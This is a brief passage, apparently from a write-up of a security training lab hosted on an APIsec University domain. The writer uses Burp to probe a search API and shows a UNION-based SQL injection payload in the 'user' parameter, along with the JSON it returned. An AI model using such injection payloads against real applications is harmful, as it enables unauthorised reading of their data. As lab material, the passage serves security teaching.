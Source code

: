 ![image.png](images/image%2026.png)

balanced perfectly. as i’m using burp so i need to use `+` sign to constract url

Lets see how many column it has.

```

https://search-for-secrets.ac25.apisecuniversity.com/api/search?user=admin' UNION SELECT 1 -- -

```

And it returned

```json
[
  [1, ""],
  ["admin", ""]
]
```

![image.png](images/image%2027.png)
